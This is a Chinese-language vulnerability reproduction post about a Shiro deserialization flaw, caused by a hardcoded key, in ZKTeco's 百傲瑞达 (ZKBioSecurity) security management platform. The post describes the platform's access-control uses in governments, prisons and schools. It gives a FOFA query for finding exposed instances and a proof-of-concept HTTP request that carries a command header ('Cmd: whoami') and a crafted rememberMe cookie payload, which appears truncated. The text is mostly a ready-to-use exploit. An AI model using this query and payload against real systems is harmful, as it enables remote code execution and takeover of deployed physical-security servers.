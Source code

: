 
# Zkteco 百傲瑞达安防管理系统平台 Shiro 反序列化漏洞复现

### 0x01 产品简介

  百傲瑞达是基于[生物识别](https://so.csdn.net/so/search?q=%E7%94%9F%E7%89%A9%E8%AF%86%E5%88%AB&spm=1001.2101.3001.7020)技术打造的一站式安防软件服务平台，平台涵盖人事管理、门禁管理、梯控管理、访客管理、视频联动、系统设置等模块，门禁配合通道管理设备可实现对出入口进行控制，可以深度应用于政府、企业、监狱、学校、智慧社区等多个安防需求领域

### 0x02 漏洞概述

 Zkteco 百傲瑞达安防管理系统平台存在 shiro 反序列化漏洞，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：title=="ZKBioSecurity" && body="Automatic login within two weeks"  

![](assets/1701669921-55dbd49b52bfd52c5a81242678cf56d8.png)

### 0x04 漏洞复现

PoC

```cobol
GET / HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cmd: whoami
Cookie: rememberMe=kPH+bIxk5D2deZiIxcaaaExg7EWKTeFZkFrgR4FfAGBNnoSgHEfKEsBMQECJwt+ceZp4VwLFx5XJDaWao1Fbavx7SZ+t7zGnhcx3V90PiU6V/R+669FmF/RmR
```
